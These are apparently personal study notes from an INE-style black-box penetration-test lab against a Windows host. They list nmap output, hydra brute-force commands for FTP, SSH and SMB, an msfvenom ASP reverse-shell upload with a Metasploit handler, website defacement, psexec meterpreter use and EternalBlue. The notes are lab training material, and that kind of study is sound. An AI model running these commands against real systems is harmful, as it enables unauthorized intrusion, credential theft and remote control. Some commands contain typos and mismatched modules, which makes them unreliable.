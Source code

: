
Black box  Penetration Test 

To do: 
- `cat /etc/hosts `
- target: demo.ine.local 
10.2.19.218 

21/tcp    open  ftp                  Microsoft ftpd
22/tcp    open  ssh                  OpenSSH 7.1 (protocol 2.0)
80/tcp    open  http                 Microsoft IIS httpd 7.5
135/tcp   open  msrpc                Microsoft Windows RPC
139/tcp   open  netbios-ssn          Microsoft Windows netbios-ssn
445/tcp   open  microsoft-ds         Microsoft Windows Server 2008 R2 - 2012 microsoft-ds
3306/tcp  open  mysql                MySQL 5.5.20-log
3389/tcp  open  tcpwrapped
4848/tcp  open  ssl/http             Oracle Glassfish Application Server
7676/tcp  open  java-message-service Java Message Service 301
8080/tcp  open  http                 Sun GlassFish Open Source Edition  4.0
8181/tcp  open  ssl/http             Oracle GlassFish 4.0 (Servlet 3.1; JSP 2.3; Java 1.8)
9200/tcp  open  wap-wsp?
49152/tcp open  msrpc                Microsoft Windows RPC
49153/tcp open  msrpc                Microsoft Windows RPC
49154/tcp open  msrpc                Microsoft Windows RPC

##### 1. Port scanning & enumeration 

- `Ping` target to check if we can communicate with the target
- perform `nmap` scan on target
	- basic scan: `nmap -sV ip `
	- `nmap  -T4 -PA -sC -sV -p 1-10000 target_ip -oX nmap_results_10k`
	- `nmap  -T4 -PA -sC -sV -p 1-65535 target_ip -oX nmap_results_65k` 
	- check udp port `nmap -sU -sV ip `
- Find out what is running on the target:
	- inspect pages that can be visited via browser 
- try to connect with a service:
	- `nc -nv target_ip target_port `

Output file in xml format can be imported in msfconsole 
Import findings in msfconsole: 
- `service postgresql start && msfconsole`
- create `workspace  `
- `db_import /root/Desktop/file/filename` (import results)
- `hosts` 
- `services`
- Get the exact operating system
	- `search smb_version`
	- `use aux/scanner/smb/smb_version`
	- ` set rhosts taret ip `
	- run (command `hosts` to check operating system)

#### Targeting Microsoft ISS FTP 

- Microsoft IIS - FTP is part of it the Microsoft IIS solution 
	- Microsoft ftp an microsoft IIS means that ftp is used to allow  authenticated users do modify the webserver directory

Steps:
1. identify vulnerability detection in regards with ftp: 
	- first check if anonymous logging is possible 
	    look for scripts: ` ls -al /usr/share/nmap/scripts/ | grep ftp- `
	    use script in nmap: `nmap -sV -p  --script=ftp-anon `
	    username: anonymous, password (geen) 

2.  ftp bruteforce attack with hydra
	- `hydra -L /usr/share/wordlists/metasploit/unix_users.txt -P /usr/share/wordlists/metasploit/unix_passwords.txt target_ip ftp `
	- check account: `hydra -l {username_youwanttofind}  -P /usr/share/wordlists/metasploit/unix_passwords.txt target_ip ftp ` or `hydra -l {username_youwanttofind}  -P /usr/share/wordlists/metasploit/unix_users.txt target_ip ftp `

3. use ftp ip port to connect to ftp server and use credentials found 

4. when you see an asp file you know the ftp client can TRY execute asp files 
	1. generate reverse shell with msfvenom 
		- `msfvenom -p windows/shell/reverse_tcp LHOST= your_ip LPORT= 1234 -f asp > shell.aspx `
	2. log back in into ftp server
		- put shell.aspx 
		- dir 

5. in different window start up multi/handler to receive the connection
	- `use multi/handler `
	- `set payload windows/shell/reverse_tcp `
	- in the browser: `ip/shell.aspx` 

if this did not work? 

pentester could try to deface the website: modify the webapplication or download client data - this is already something that should be reported. 
you could modify pages hosted 
get index.html
open the file in vim 
put index.html


#### Targeting OpenSSH 

Get the exact version of OpenSSH 

- `searchsploit OpenSSH version_number`
- burteforce: 
	- `hydra -l {username_youfound}  -P /usr/share/wordlists/metasploit/unix_users.txt target_ip ssh ` 
	- `hydra -l administrator  -P /usr/share/wordlists/metasploit/unix_users.txt target_ip ssh ` `
- ssh username@ip 
	- pwd - whoami - net localgroup - 
- msfconsole
	- search ssh_login 
	- use au/scanner/ssh/ssh_login 
	- upgrade shell 
	- windows cmd session in ssh : `bash` 
	- `net localgroup administrators `
	- `whoami /priv`


#### Targeting SMB 

- bruteforce: 
	- `hydra -l administrator -P /usr/share/wordlists/metasploit/unix_users.txt  target protocol `
- enumerate shares
	- `smbclient -L targetip -U username`
	- `smbmap -u vagrant -p vagrant -H targetip `
- enumerate user accounts `enum4linux -u username -p password -U ip ` 

 - msfconsole
	 - enumerate users: `smb_enumusers` 

###### PSexec

**Manual**
	psexec allows you to remotely authenticate via SMB with legitimate credentials
		- `locate psexec.py `
		- Copy the file to Desktop:` cp file path  `
		- make the file executable so we can utilize it: `chmod +x psexec.py`
	- `python 3 psexec.py Administrator@ip `

**msfconsole** 
	- `search psexec `
	- `use exploit/windows/smb/psexec `
		- `set payload windows/x64/meterpreter/reverse_tcp`
		- `Sysinfo` 
		- `getuid`
		- `getprivs`


What to do when you don't have smb credentials? if you know that the device is running eternalblue: 
	- `search eternalblue `
	- `use exploit/windows/smb/psexec `


#### Targeting MySQL Database Server



































#### Targeting MySQL Database Server 
